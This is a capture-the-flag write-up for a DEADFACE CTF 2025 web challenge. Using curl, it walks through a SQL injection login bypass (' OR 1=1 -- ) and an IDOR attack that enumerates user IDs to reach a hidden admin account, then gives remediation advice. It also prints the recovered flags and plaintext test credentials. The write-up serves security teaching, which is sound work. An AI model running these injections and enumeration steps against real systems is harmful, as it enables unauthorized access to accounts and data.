



# The Invisible Man - DEADFACE CTF 2025

**Category:** `WEB`


## Challenge Description
 

>The Night Vale University (NVU) student portal appears to have some security vulnerabilities. Your mission is to identify hidden/privileged users and recover their flags.
>>Submit the flag as deadface{flag text}.
>>>http://env01.deadface.io:8080

**Target:** `http://env01.deadface.io:8080`

## Tools Used

- `curl` - Command-line HTTP client
- Browser Developer Tools (optional)
- Basic understanding of SQL injection and IDOR vulnerabilities

## Reconnaissance

### Step 1: Initial Homepage Analysis

First, let's examine the homepage to understand the application structure:

```bash
curl -s http://env01.deadface.io:8080 | head -100
```

**Key Findings:**
- Application: Night Vale University Student Portal
- Pages available: `?page=home`, `?page=courses`, `?page=login`, etc.
- Server: Apache/2.4.65 (Debian)
- Portal Version: 2.1.4

### Step 2: Login Page Examination

Navigate to the login page to identify potential vulnerabilities:

```bash
curl -s "http://env01.deadface.io:8080/?page=login" | grep -A 30 "form"
```

**Critical Observations:**

The login page reveals several important details in HTML comments:

1. **Test Accounts Available:**
   - Student: `jstudent / password123`
   - Faculty: `deephax / music4life`
   - Admin credentials (commented): `admin / NVU_Adm1n_P0rt4l`

2. **Security Hint in Page:**
   ```html
   <p style="font-size: 0.85rem; color: rgba(237,236,236,0.5);
      margin-top: 1rem; font-style: italic;">
       Hint: Try different SQL injection techniques to access specific accounts...
   </p>
   ```

This is a clear indicator that SQL injection is the intended attack vector.

## Exploitation - Part 1: SQL Injection Authentication Bypass

### Understanding the Vulnerability

The login form accepts username and password via POST request. The hint suggests the authentication query is vulnerable to SQL injection.

A typical vulnerable SQL query might look like:
```sql
SELECT * FROM users WHERE username='$username' AND password='$password'
```

### Step 3: SQL Injection Payload

We'll use the classic `' OR 1=1 -- ` payload to bypass authentication:

```bash
curl -s -c /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/?page=login" \
  -d "username=' OR 1=1 -- &password=anything&login=Login"
```

**Explanation of the Payload:**
- `'` - Closes the username string in the SQL query
- `OR 1=1` - Always evaluates to TRUE, bypassing authentication
- `--` - SQL comment that ignores everything after (including password check)
- The space after `--` is important in SQL

**Result:**
```html
<script>window.location.href='index.php?page=profile';</script>
```

The application redirects us to the profile page, indicating successful authentication!

### Step 4: Retrieve First Flag

Now let's access the profile page with our session cookie:

```bash
curl -s -b /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/?page=profile" | grep -i "flag"
```

**Output:**


```
Congratulations! Flag: deadface{sql_1nj3ct10n_byp4ss_4uth}
```

**First Flag Captured:** `deadface{sql_1nj3ct10n_byp4ss_4uth}`

## Exploitation - Part 2: IDOR (Insecure Direct Object Reference)

### Step 5: Admin Panel Discovery

With our authenticated session, let's explore the admin panel:

```bash
curl -s -b /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/admin.php" | head -80
```

**Findings:**

1. **System Diagnostics Section:**
   - Ping functionality (potential command injection, but not needed for this challenge)

2. **User Management Table:**
   - Lists users with IDs 1-15
   - Each user has a "View Details" link: `?view_user=X&source=ui`
   - Visible users include:
     - ID 1: admin
     - ID 2: StarSeeker85 (professor)
     - ID 3: daper (faculty)
     - ID 4-15: various students/staff

**Key Observation:** The user IDs are sequential, and there's no indication of what ID 16 or higher might contain. This is a classic IDOR setup.

### Step 6: API Endpoint Discovery

The original writeup mentioned an API search endpoint. Let's explore it:

```bash
curl -s -b /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/api/search.php?q=a&type=users"
```

**Response:**
```json
{
    "status": "success",
    "type": "users",
    "query": "a",
    "count": 9,
    "results": [
        {
            "username": "admin",
            "email": "admin@nvu.edu",
            "role": "admin"
        },
        {
            "username": "StarSeeker85",
            "email": "e.blackwood@nvu.edu",
            "role": "professor"
        },
        ...
        {
            "username": "backup_admin",
            "email": "backup@nvu.edu",
            "role": "admin"
        }
    ]
}
```

**Critical Discovery:** A hidden `backup_admin` account exists! This user is not listed in the admin panel's user table (which only shows IDs 1-15).

### Step 7: Exploiting the IDOR Vulnerability

Since we found a hidden admin account, let's try accessing higher user IDs directly through the admin panel:

```bash
curl -s -b /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/admin.php?view_user=16"
```

**The IDOR Flaw:**
The application fails to properly validate whether the requested user should be visible to the current user. By manipulating the `view_user` parameter, we can access any user record directly.

### Step 8: Retrieve Second Flag

The response from viewing user ID 16:

```bash
curl -s -b /tmp/invisible_cookies.txt \
  "http://env01.deadface.io:8080/admin.php?view_user=16" | grep -i "flag"
```

**Output:**

```html
<p><strong>Username:</strong> backup_admin</p>
<p><strong>Email:</strong> backup@nvu.edu</p>
<p><strong>Role:</strong> admin</p>
Flag: deadface{1ns3cur3_d1r3ct_0bj3ct_r3f3r3nc3}
```

**Second Flag Captured:** `deadface{1ns3cur3_d1r3ct_0bj3ct_r3f3r3nc3}`


## Vulnerability Analysis

### SQL Injection (CWE-89)

**Vulnerability Details:**
- The login authentication does not properly sanitize user input
- User-supplied data is directly concatenated into SQL queries
- Allows attackers to manipulate query logic with special characters

**Impact:**
- Authentication bypass
- Unauthorized access to admin accounts
- Potential data exfiltration (depending on database permissions)

**Remediation:**
1. Use parameterized queries (prepared statements)
2. Implement input validation and sanitization
3. Use an ORM that handles SQL escaping properly
4. Apply principle of least privilege to database accounts

**Example Secure Code (PHP):**
```php
// Vulnerable (DO NOT USE)
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";

// Secure (USE THIS)
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->execute([$username, $password_hash]);
```

### IDOR - Insecure Direct Object Reference (CWE-639)

**Vulnerability Details:**
- The application exposes internal user IDs in URLs
- No authorization check to verify if the current user should access the requested user
- The UI only shows IDs 1-15, but ID 16+ are accessible directly

**Impact:**
- Unauthorized access to user information
- Exposure of hidden/privileged accounts
- Privacy violations

**Remediation:**
1. Implement proper authorization checks:
   ```php
   if (!canUserAccessProfile($current_user, $requested_user_id)) {
       return 403; // Forbidden
   }
   ```
2. Use indirect references (UUIDs or session-specific references)
3. Apply role-based access control (RBAC)
4. Log all access attempts for audit purposes

## Key Takeaways

1. **Defense in Depth:** This challenge demonstrates how multiple vulnerabilities can be chained together for greater impact

2. **Input Validation:** Always validate and sanitize user input, especially for authentication systems

3. **Access Control:** Implement proper authorization checks at every level - not just in the UI

4. **API Security:** API endpoints can expose information that's hidden in the UI

5. **Enumeration:** Sequential IDs make enumeration trivial - consider using UUIDs for resources

6. **Testing:** Both black-box (API enumeration) and white-box (code review) testing are essential


## References

- [OWASP Top 10 - Injection](https://owasp.org/www-project-top-ten/)
- [OWASP Top 10 - Broken Access Control](https://owasp.org/www-project-top-ten/)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [CWE-639: Insecure Direct Object Reference](https://cwe.mitre.org/data/definitions/639.html)
- [PortSwigger: SQL Injection](https://portswigger.net/web-security/sql-injection)
- [PortSwigger: IDOR](https://portswigger.net/web-security/access-control/idor)

## Flags

1. `deadface{sql_1nj3ct10n_byp4ss_4uth}`
2. `deadface{1ns3cur3_d1r3ct_0bj3ct_r3f3r3nc3}`
